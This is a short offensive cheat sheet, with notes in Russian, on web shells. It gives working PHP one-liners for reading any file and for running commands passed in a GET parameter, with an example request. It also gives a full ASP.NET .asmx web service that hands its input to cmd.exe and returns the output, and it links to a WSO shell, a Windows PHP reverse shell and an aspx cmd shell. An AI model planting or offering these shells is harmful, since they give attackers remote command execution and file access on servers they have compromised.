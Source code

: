 # WebShell

## PHP

wso web shell - 1page php script с файловым менеджером

PHP Win rev shell: [https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php)

Варианты попроще

### File read

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

### Command execution

```php
<?php echo system($_GET['command']); ?>
// GET /example/exploit.php?command=id HTTP/1.1
```

## ASP.NET

Основа (.asmx, .aspx)

```aspnet
<%@ WebService Language="C#" Class="MyClass" %> 
using System.Web.Services; 
using System; 
using System.Diagnostics; 
using System.IO; 

[WebService(Namespace="")] 
public class MyClass : WebService 
{ 
    [WebMethod] 
    public string Pwn_Function(string x) 
    { 
        ProcessStartInfo psi = new ProcessStartInfo(); 
        psi.FileName = "cmd.exe"; 
        psi.Arguments = "/c \""+x+"\""; 
        psi.RedirectStandardOutput = true; 
        psi.UseShellExecute = false; 
        Process p = Process.Start(psi); 
        StreamReader stmrdr = p.StandardOutput; 
        string s = stmrdr.ReadToEnd(); 
        return "PWNED" + s; 
    } 
}
```

aspx web shell [https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)
